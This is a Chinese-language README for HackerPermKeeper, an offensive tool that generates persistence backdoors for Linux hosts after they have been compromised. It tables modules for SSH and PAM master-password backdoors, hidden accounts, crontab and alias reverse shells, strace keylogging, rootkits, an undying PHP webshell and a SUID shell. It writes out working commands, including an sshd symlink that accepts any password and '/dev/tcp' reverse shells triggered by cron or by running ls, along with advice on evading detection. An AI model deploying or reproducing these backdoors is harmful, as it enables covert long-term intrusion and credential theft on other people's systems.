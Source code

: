 # :lock:	HackerPermKeeper  
### 黑客权限保持者

          _   _               _                ______                         _   __                               
         | | | |             | |               | ___ \                       | | / /                               
         | |_| |  __ _   ___ | | __  ___  _ __ | |_/ /  ___  _ __  _ __ ___  | |/ /   ___   ___  _ __    ___  _ __ 
         |  _  | / _` | / __|| |/ / / _ \| '__||  __/  / _ \| '__|| '_ ` _ \ |    \  / _ \ / _ \| '_ \  / _ \| '__|
         | | | || (_| || (__ |   < |  __/| |   | |    |  __/| |   | | | | | || |\  \|  __/|  __/| |_) ||  __/| |   
         \_| |_/ \__,_| \___||_|\_\ \___||_|   \_|     \___||_|   |_| |_| |_|\_| \_/ \___| \___|| .__/  \___||_|   
                                                                                                | |                
                                                                                                |_|                       
<br/>
  <p align="center">
    <img alt="GitHub Contributors" src="https://img.shields.io/badge/%E4%BD%9C%E8%80%85-%E5%BC%B1%E9%B8%A1-red" />
    <img alt="GitHub Contributors" src="https://img.shields.io/badge/%E5%8D%9A%E5%AE%A2-www.taoyuan.cool-blue" />
    <img alt="GitHub Contributors" src="https://img.shields.io/badge/%E5%AE%89%E5%85%A8%E5%9B%A2%E9%98%9F-One--fox-pink" />
    <img src="https://img.shields.io/badge/WeChat-vivo50KFCKFC-black">
    <img src="https://badgen.net/github/stars/RuoJi6/HackerPermKeeper/?icon=github&color=black">
    <img src="https://badgen.net/github/issues/RuoJi6/HackerPermKeeper">
    <img src="https://img.shields.io/badge/python%E7%89%88%E6%9C%AC-3_and_2-green">
    <a href="https://flowus.cn/share/3505271f-a987-4fb1-9623-efe58dcc77ec">
     <img src="https://img.shields.io/badge/%E6%96%87%E5%BA%93-wiki-yellow">
    </a>
</p>
<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 通过渗透拿到权限之后，为了不让权限丢失，都会进行权限维持，而在进行权限维持的时候，红队需要花费大量的时候，来验证是否合适，因此在这款工具就诞生 HackerPermKeeper[黑客权限保持者] 
<br/><br/>


## 🚀上手指南

📢 请务必花一点时间阅读此文档，有助于你快速熟悉HackerPermKeeper
<br/><br/>

<details>
<summary><b>:lock:支持系统列表</b></summary>

| :lock:权限维持模块                      | centos             | Ubuntu             | 推荐指数                                             | 需要权限     | 备注                                                         | py2                | py3                |
| :-------------------------------------- | ------------------ | ------------------ | ---------------------------------------------------- | ------------ | ------------------------------------------------------------ | ------------------ | ------------------ |
| OpenSSH后门万能密码&记录密码            | :x:                | :heavy_check_mark: | :star:                                               | root         | 此后门需要很老的内核版本，而且需要很多依赖环境               | :x:                | :heavy_check_mark: |
| PAM后门                                 | :x:                | :x:                | :star:                                               | :x:          | 此后门需要很老的内核版本，而且需要很多依赖环境               | :x:                | :x:                |
| ssh软链接                               | :heavy_check_mark: | :heavy_check_mark: | :star:	:star:                                     | root         | 容易被发现                                                   | :heavy_check_mark: | :heavy_check_mark: |
| ssh公私密钥                             | :heavy_check_mark: | :heavy_check_mark: | :star:	:star:	:star:	:star:	:star:       | User         | 发现程度很难，参考了挖矿病毒                                 | :heavy_check_mark: | :heavy_check_mark: |
| 后门帐号                                | :heavy_check_mark: | :heavy_check_mark: | :star:	:star:	:star:                           | root         | 用命令添加账户，不会创建用户home目录[有一个是直接指向root目录] | :heavy_check_mark: | :heavy_check_mark: |
| crontab计划任务                         | :heavy_check_mark: | :heavy_check_mark: | :star:	:star:	:star:	:star:                 | User or root | 难以发现，通过执行计划任务                                   | :heavy_check_mark: | :heavy_check_mark: |
| Strace后门                              | :heavy_check_mark: | :heavy_check_mark: | :star:	:star:                                     | root         | 键盘记录的后门                                               | :heavy_check_mark: | :heavy_check_mark: |
| Alias后门                               | :heavy_check_mark: | :heavy_check_mark: | :star:	:star:	:star:	:star:                 | root         | 别名后门，难以发现，但是需要用户去执行命令                   | :heavy_check_mark: | :heavy_check_mark: |
| Rootkit后门[检测]                       | :x:                | :x:                | :star:	:star:	:star:                           | root         | 难以发现，但是安装复杂，而且指定内核版本                     | :x:                | :x:                |
| 临时history不记录命令 or 永久不记录命令 | :heavy_check_mark: | :heavy_check_mark: | :star:	:star:	:star::star::star::star:         | root         | 有的服务器设置了空格记录执行命令，执行这个脚本快速设置不记录空格命令 | :heavy_check_mark: | :heavy_check_mark: |
| ssh软链接&crontab                       | :heavy_check_mark: | :heavy_check_mark: | :star:	:star:	:star:	:star:                 | root         | 快速生成软链接，并且执行计划任务，每分钟判断当前软链接是否存在，如果被kill掉，就重新执行 | :heavy_check_mark: | :heavy_check_mark: |
| check.py                                | :heavy_check_mark: | :heavy_check_mark: | :star:	:star:	:star:	:star::star::star:     | User         | 快速检测目标机器可以使用那个权限维持模块，并且检测当前机器处于docker还是k8s，并检测docker逃逸 | :heavy_check_mark: | :heavy_check_mark: |
| sshkey密钥&crontab                      | :heavy_check_mark: | :heavy_check_mark: | :star:	:star:	:star:	:star::star:	:star: | User or root | 快速生成ssh密钥，并且执行计划任务，每分钟判断当前密钥和多个文件是否存在，如果被kill掉，就重新执行 | :heavy_check_mark: | :heavy_check_mark: |
| php权限维持不死免杀马                   | :heavy_check_mark: | :heavy_check_mark: | :star:	:star:	:star:	:star::star:	:star: | User or root | phpweb权限维持马                                             | :heavy_check_mark: | :heavy_check_mark: |
| Suid shell bash                         | :heavy_check_mark: | :heavy_check_mark: | :star:	:star:	:star:	:star:	:star:       | root         | Suid shell bash脚本(低权限用户运行),可以和webshell进行联动一个低权限用户只需要执行一个文件就可以获取高权限 | :heavy_check_mark: | :heavy_check_mark: |

</details>


<details>
<summary><b>:closed_lock_with_key:权限的划分</b></summary>

| UID    | 数值                                                        | 比如：       |
| ------ | ----------------------------------------------------------- | ------------ |
| 0      | 超级管理员（root用户）                                      | root         |
| 1～999 | Linux系统将一些服务程序和系统任务分配给独立的系统用户来运行 | bin          |
| 1000   | 普通用户UID从1000开始                                       | www-data,www |

</details>

<details>
<summary><b>🐍安装要求</b></summary>
  
```
python3运行此项目[我自己的环境是Python 3.9.7]，但是运行权限维持模块脚本请看上面的表格
安装依赖
pip install -r requirements.txt
```
  
![image](https://github.com/RuoJi6/HackerPermKeeper/assets/79234113/917d5afc-1775-4bcc-82d0-c9adb7cf89b7)

```
测试是否正常运行
python main.py -h
```
![image](https://github.com/RuoJi6/HackerPermKeeper/assets/79234113/d4c4b282-6570-4b3e-ba97-d27e7eaef42b)



</details>

<details>
<summary><b>✨使用演示</b></summary>

```
查看帮助
python main.py -h
```
![image](https://github.com/RuoJi6/HackerPermKeeper/assets/79234113/b2216e6b-c07c-4ee6-9768-3da79c6d9932)



```
快速判断目标机器适合的权限维持模块，运行 /check/ 目录下的check.py文件[这个不需要任何依赖环境，python3和python2都支持]
python check.py
python3 check.py
python2 check.py
```
![image](https://github.com/RuoJi6/HackerPermKeeper/assets/79234113/09fd1694-c90a-49da-a9c9-47e7745463d2)




```
查看权限维持模块信息
python main.py -c 1
```
![image](https://github.com/RuoJi6/HackerPermKeeper/assets/79234113/a15340cc-6586-4541-9345-55ef3a8873a8)



```
查看权限维持模详细块信息
python main.py -c 2
```
![image](https://github.com/RuoJi6/HackerPermKeeper/assets/79234113/59a86236-1e03-4ea9-8b48-d14d57451317)


```
使用此项目生成权限维持脚本[在这之前，请先运行check.py脚本判断出目标机器适合什么类型权限维持的脚本]
python main.py -m 1   #选择模块[6.0更新之后，可以连续选择]
```
![image](https://github.com/RuoJi6/HackerPermKeeper/assets/79234113/2cb4a5a6-76e7-4da5-8000-b8d080070914)

```
有的生成的脚本文件。需要在生成之后进行手动修改
比如：修改反弹shellip以及端口，后门用户密码，ssh密钥密码，ssh密钥等[此缺陷将会在第二个版本修复]
生成的文件会在payloads目录下产生
```
![image](https://github.com/RuoJi6/HackerPermKeeper/assets/79234113/8e9c3c6e-21a3-4a14-adc3-632f08da434a)


使用视频：https://www.bilibili.com/video/BV1fV411N7Qc/
</details>

<details>
<summary><b>:triangular_flag_on_post:	常见后门介绍</b></summary>

```
OpenSSH后门万能密码&记录密码（这个需要依赖环境），就是把对方的门换个锁，但是原来的钥匙也可以使用
发现程度：||

PAM后门，PAM是一个Linux登录验证的认证服务，修改其中关于ssh登录的验证，添加一个万能密码，已经记录的账号密码位置（类似把对方房间内有内鬼）
发现程度：||


SSH软链接
cat /etc/ssh/sshd_config|grep UsePAM
ln -sf /usr/sbin/sshd /tmp/su;/tmp/su -oPort=8888
ssh root@xx.xx.xx.xx -p 8888 任意密码登录即可
发现程度：||||||


公私钥
使用密钥进行登录
发现程度：||||||


后门帐号
使用命令添加账号
发现程度：||||||


crontab后计划任务
1、编辑后门反弹
vim /etc/.111.sh

#!/bin/bash
sh -i >& /dev/tcp/192.168.86.137/3434 0>&1

chmod +x /etc/.111.sh

2、添加定时任务
vim /etc/crontab
*/1 * * * * root /etc/.1111.sh
发现程度：||||||


Strace后门
strace是一个动态跟踪工具，它可以跟踪系统调用的执行。
我们可以把他当成一个键盘记录的后门，来扩大我们的信息收集范围
可以记录ssh明文和密钥（登录的）和Rootkit配合一起
发现程度：||||

命令自定义-Alias后门
alias命令的功能：为命令设置别名
alias ls='alerts(){ ls $* --color=auto;bash -i >& /dev/tcp/192.168.86.137/3333 0>&1; };alerts'
执行ls就会反弹shell
持久化+隐藏：重启依旧生效
发现程度：||||

Rootkit后门
https://github.com/f0rb1dd3n/Reptile/releases/
Rootkit是一种特殊的恶意软件，它的功能是在安装目标上隐藏自身及指定的文件、进程和网络链接等信息，比较多见到的是Rootkit一般都和木马、后门等其他恶意程序结合使用。
发现程度：||
但是使用工具进行检测出来情况很大，建议看代码，手动编写此工具（难度很大）


history不记录执行命令
在输入命令时候，添加空格

ssh软链接&crontab
快速生成软链接[需要运行脚本成功后，一分钟连接]，并且执行计划任务，每分钟判断当前软链接是否存在，如果被kill掉，就重新执行

|||||  越多，越容易发发现
||        越少，越难发现，但是部署起来，需要的依赖很多

```

</details>


<details>
<summary><b>:warning:常见错误error</b></summary>

```
1、
使用ssh密钥后门连接的时候，出现这个错误，就是当前ip有在known_hosts中存在多个主机文件
解决：ssh-keygen -f "known_hosts文件" -R "目标Ip"
或者使用另外一台机器连接
```
![TON3EA2_MQW`94HRK53GZTQ](https://github.com/RuoJi6/HackerPermKeeper/assets/79234113/93dad03b-af7c-4e62-9dc8-87722504ce10)
删除成功
![image](https://github.com/RuoJi6/HackerPermKeeper/assets/79234113/3342097e-b280-4b68-b90b-788a2de5cca6)

```
2、
下载的ssh密钥连接的时候出现安全性错误
![image](https://github.com/RuoJi6/HackerPermKeeper/assets/79234113/76dfafe5-22a7-4698-b08e-fd5857a15641)
解决：修改权限 chmod 600 密钥文件，然后在连接
```
![image](https://github.com/RuoJi6/HackerPermKeeper/assets/79234113/8d9262ac-1555-466d-8ed7-197fb9521d43)

</details>

<details>
<summary><b>:zap:提交问题</b></summary>
有问题请提交issues<br/>
<a href="https://github.com/RuoJi6/HackerPermKeeper/issues"><img src="https://badgen.net/github/issues/RuoJi6/HackerPermKeeper"></a>
<br/>
加我微信进开发者微信群聊 
<br/><img src="https://img.shields.io/badge/WeChat-vivo50KFCKFC-green">
</details>

<br/>

## :world_map:版本更新
```
1.0 权限维持
----------------------------------------------------------------------------------------------------------
2.0 1、利用成功之后删除文件
    2、命令配合使用[软链接+计划任务]
    3、判断当前系统有没有python环境
    4、使用ssh密钥的时候，在对方服务器生成的时候，生成完成之后，删除文件id_ed25519.pub和id_ed25519
    5、设置全局环境变量不记录空格命令[history]
    6、修改在不同环境下，main.py运行bug
    7、修复计划任务，在反弹shell的时候，出现的python版本问题
    8、ssh密钥权限维持模块，bug修复，如果是出现不是root，权限也可以成功
    9、修复check.py脚本检测普通用户权限
----------------------------------------------------------------------------------------------------------
3.0 1、php web权限维持马[首页马，加密马内存马，不死马]
    2、模块配合使用[添加用户加计划任务，ssh密钥加计划任务]
    3、在计划任务配合使用的时候，发现还需要判断文件有没有加锁
----------------------------------------------------------------------------------------------------------
4.0 1、修改ssh密钥以及添加用户中重新运行时候，检测是否加锁解锁操作
----------------------------------------------------------------------------------------------------------
5.0 1、检测docker，k8s环境
    2、检测docker逃逸，特权逃逸，Docker Socket逃逸，docker procfs逃逸[以后会添加针对k8s横向以及逃逸]
    3、别名权限维持文件不存在bug修复
    4、修复检测脚本bug
----------------------------------------------------------------------------------------------------------
6.0 1、Suid shell bash权限维持
    2、重写生成代码(连续生成)
    3、添加不记录历史命令临时操作，同时可以批量删除指定的.bash_history文件中的历史记录
    4、修改检查脚本(添加检查环境)
    5、使用tabulate模块进行格式化输出
```


<br/>

## :beginner:开发日志
<a href="https://flowus.cn/ruoji/share/57079f81-d391-478e-88c8-329c93371723">点击跳转</a>

<br/>

## :star2:Stargazers over time [![Stargazers over time](https://starchart.cc/RuoJi6/HackerPermKeeper.svg)](https://starchart.cc/RuoJi6/HackerPermKeeper)


## Stargazers

[![Stargazers repo roster for @RuoJi6/HackerPermKeeper](http://reporoster.com/stars/RuoJi6/HackerPermKeeper)](https://github.com/RuoJi6/HackerPermKeeper/stargazers)


## Forkers

[![Forkers repo roster for @RuoJi6/HackerPermKeeper](http://reporoster.com/forks/RuoJi6/HackerPermKeeper)](https://github.com/RuoJi6/HackerPermKeeper/network/members)


<a href="https://github.com/RuoJi6">
  <img height=150 align="center" src="https://github-readme-stats.vercel.app/api?username=RuoJi6"/>
</a>
<a href="https://github.com/RuoJi6/HackerPermKeeper/">
  <img height=150 align="center" src="https://github-readme-stats.vercel.app/api/top-langs?username=RuoJi6&layout=compact&langs_count=8&card_width=320" />
</a>

